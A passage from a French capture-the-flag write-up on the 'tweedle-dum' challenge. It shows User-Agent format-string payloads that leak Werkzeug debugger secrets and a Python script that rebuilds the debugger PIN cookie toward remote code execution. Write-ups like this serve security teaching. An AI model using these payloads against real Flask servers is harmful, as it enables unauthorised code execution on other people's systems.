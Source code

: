 On peut donc sélectionner le module **werkzeug.debug**:

```python
{ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug]}
```

puis enfin, les deux variables tant recherchées:

-
    ```python
    {ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug]._machine_id}
    ```

-
    ```python
    {ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug].uuid._node}
    ```

#### Combinaison des informations et RCE finale :

On peut donc tous lier pour obtenir le pin :

```python
import requests
import re
import html
import hashlib
from itertools import chain

url = 'https://tweedle-dum.france-cybersecurity-challenge.fr'

def render(payload):
	r = requests.get(url,headers={"User-Agent":payload}).text
	return html.unescape(re.findall(r'Hello (.*?)</div>',r)[0])

machine_id = render(r'{ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug].uuid._node}')
uuid = eval(render(r'{ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug]._machine_id}')) # b'XXX-XXX-XXX...'


probably_public_bits = [
	'guest',
	'flask.app',
	'Flask',
	'/usr/local/lib/python3.10/site-packages/flask/app.py',
]

private_bits = [
	machine_id,
	uuid
 ]

num = None
rv = None

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode("utf-8")
	h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

```

[//]: <> (Wrote By Vozec 27/04/2023)